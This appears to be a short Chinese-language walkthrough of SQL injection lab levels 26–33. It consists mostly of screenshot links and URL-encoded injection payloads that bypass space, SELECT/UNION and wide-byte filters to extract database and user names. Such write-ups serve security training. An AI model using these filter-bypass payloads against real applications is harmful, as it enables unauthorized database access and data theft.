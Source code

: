 ![](https://ae01.alicdn.com/kf/H6d74de1b63b64f6da9045d253ac494c9J.jpg)

-第二十六关 (过滤空格)

```
id=-1'%0a%26%26'1'='2
```
![](https://ae01.alicdn.com/kf/H2137712309e04214a4b403d39613d3bc1.jpg)

-第二十七关(过滤SELECT & UNION)

```
id=-1'%0a%26%26'1'='1
index.php?id=100'%0aUNion%0aSelEcT%0a1,database(),3%0a%26%26'1
```

![](https://ae01.alicdn.com/kf/H7757307c920641918df46f8637f172a51.jpg)

-第二十八关(过滤SELECT & UNION)

```
id=1'%0aand%0a1=2%26%26'1

```

- 第三十二关（宽子节开始）

![](https://ae01.alicdn.com/kf/Hd7b8e60d6670401a9ffb075b4c8bbaf2C.jpg)

```
id=-1%df' union select 1,user(),3 --+
```
![](https://ae01.alicdn.com/kf/H7874e5c67d75461d8ef6d79d418acf09R.jpg)

- 第三十三关

```
id=-1%df' union select 1,user(),3 --+
```

![](https://ae01.alicdn.com/kf/H60628454ea6d4c918a898c99d6cc02dcW.jpg)